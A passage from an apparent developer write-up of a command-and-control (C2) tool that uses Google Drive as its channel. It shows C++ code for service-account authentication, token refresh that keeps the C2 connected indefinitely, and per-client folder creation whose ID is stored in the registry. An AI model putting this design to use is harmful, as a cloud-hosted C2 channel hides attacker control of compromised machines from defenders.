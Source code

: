 ## `Authenticate`

A convenience entry-point used by both the client and the server:

```cpp
std::string key = load_private_key_from_json("service-account.json");
driveAPI.Authenticate(key);          // handles JWT + access-token
```

This replaces the old "generate JWT → request token" code I had in the constructors.

## Automatic token refresh (`RefreshAccessToken`)

#### [Google Drive service-account token doc](https://developers.google.com/identity/protocols/oauth2/service-account?authuser=4#httprest_1)

Google limits a service-account access token to **3600 s**.  
`DriveAPI` stores the expiry (`tokenExpiration`) plus the private key and, each time `SetBearerToken()` runs, executes:

1. If `now < tokenExpiration − 5 min` → instant return, no HTTP call.  
2. Otherwise it builds a new JWT, posts to `/token`, stores the fresh bearer and resets the timer.

Result: the C2 keeps talking to Drive indefinitely with only the occasional ~200 ms refresh when needed.

## `CreateUserFolder`

When a new client runs for the first time, it should create its own folder in Google Drive to store all its files. The `CreateUserFolder` method handles this. We send a POST request to the Drive REST API to create a folder (which in Drive is just a file with a special MIME type, see [Drive folders guide](https://developers.google.com/workspace/drive/api/guides/folder) and [Create File guide](https://developers.google.com/workspace/drive/api/guides/create-file)):

```cpp
std::string bodyFolder = R"({
    "name": "User",
    "mimeType": "application/vnd.google-apps.folder"
})";
auto result = API.Post("/drive/v3/files", bodyFolder, "application/json");
json responseBody = json::parse(result->body);
std::string folderId = responseBody["id"];

// Rename the folder to its own ID for uniqueness
std::string newNameJson = "{\"name\": \"" + folderId + "\"}";
API.Patch(("/drive/v3/files/" + folderId + "?fields=name").c_str(), newNameJson, "application/json");
```

We initially name the folder `"User"`, but once Drive returns the new folder's **ID**, we immediately rename it to that ID. This trick gives each client a unique identifier in Drive (and avoids having multiple folders named "User"). The folder ID is crucial because we use it in all subsequent calls to upload or search files for that particular client. Finally, the client will persist this ID (for example, storing it in the registry) so that on the next run it knows it already has a Drive home to use.
